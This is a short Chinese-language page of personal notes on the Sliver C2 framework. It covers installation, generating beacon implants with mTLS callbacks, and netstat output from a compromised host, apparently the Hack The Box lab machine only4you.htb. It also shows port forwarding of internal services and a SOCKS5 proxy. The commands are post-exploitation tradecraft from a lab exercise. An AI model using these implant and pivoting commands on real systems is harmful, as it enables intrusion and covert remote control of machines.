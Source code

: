 最近听说了个[Sliver C2](https://github.com/BishopFox/sliver)好像是对标CS的？


## Install

安装很简单： 
> `curl https://sliver.sh/install|sudo bash` and then run `sliver`

- memo：这种方式安装即为[Multiplayer Mode](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode)

		The easiest way to setup a server for multiplayer is to use the Linux install script which will configure the server as a systemd service.


## [Implants: Beacon vs. Session](https://github.com/BishopFox/sliver/wiki/Getting-Started#implants-beacon-vs-session)

`sliver > generate [beacon] --mtls <yourIP> --os linux [--save 绝对路径]`

- 默认保存在当前工作目录——即打开sliver时的目录
- 可用 `implants` 命令进行管理（但是其实源文件还是要自己手动删！） 
- 端口转发仅支持会话模式
    - 尝试beacon模式开临时会话——临时会话关掉之后配置的端口转发也失效


## netstat注意点

Sliver的 `netstat` 命令要显示全还挺麻烦的……如果不是之前知道开放了3000、8001等本地端口的话，估计就不会注意到了。对比带选项和不带选项：
```bash
sliver (SMILING_WET-BAR) > netstat -4 -6 -l -n -T -u

 Protocol   Local Address     Foreign Address   State         PID/Program Name 
========== ================= ================= ============= ==================
 udp        127.0.0.1:48897   127.0.0.53:53     ESTABLISHED   0/               
 udp        127.0.0.53:53     0.0.0.0:0                       0/               
 udp        0.0.0.0:68        0.0.0.0:0                       0/               
 tcp        127.0.0.1:3306    0.0.0.0:0         LISTEN        0/               
 tcp        0.0.0.0:80        0.0.0.0:0         LISTEN        1049/nginx       
 tcp        127.0.0.53:53     0.0.0.0:0         LISTEN        0/               
 tcp        0.0.0.0:22        0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:3000    0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:8001    0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:33060   0.0.0.0:0         LISTEN        0/               
 tcp6       127.0.0.1:7474    :::0              LISTEN        0/               
 tcp6       :::22             :::0              LISTEN        0/               
 tcp6       127.0.0.1:7687    :::0              LISTEN        0/


sliver (SMILING_WET-BAR) > netstat 

 Protocol   Local Address         Foreign Address    State         PID/Program Name     
========== ===================== ================== ============= ======================
 tcp        only4you.htb.:48422   10.xx.xx.xx:4444   ESTABLISHED   5111/python3         
 tcp        only4you.htb.:44230   10.xx.xx.xx:4444   CLOSE_WAIT    1438/python3         
 tcp        only4you.htb.:32794   10.xx.xx.xx:4444   CLOSE_WAIT    1250/python3         
 tcp        localhost:3000        localhost:41604    ESTABLISHED   0/                   
 tcp        localhost:3000        localhost:41616    ESTABLISHED   0/                   
 tcp        only4you.htb.:59626   10.xx.xx.xx:4444   CLOSE_WAIT    2215/python3         
 tcp        only4you.htb.:39926   dns.google.:53     SYN_SENT      0/                   
 tcp        localhost:3000        localhost:41624    ESTABLISHED   0/
```

## Port Forwarding

```bash
sliver (SMILING_WET-BAR) > portfwd add -b 10.xx.xx.xx:7474 -r 127.0.0.1:7474

[*] Port forwarding 10.xx.xx.xx:7474 -> 127.0.0.1:7474


sliver (SMILING_WET-BAR) > portfwd 

 ID   Session ID                             Bind Address       Remote Address 
==== ====================================== ================== ================
  1   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:3000   127.0.0.1:3000 
  2   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:8001   127.0.0.1:8001 
  3   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:7474   127.0.0.1:7474
```

## socks5 proxy

也可以 `socks start` 开启socks5代理。然后在浏览器配置代理就好了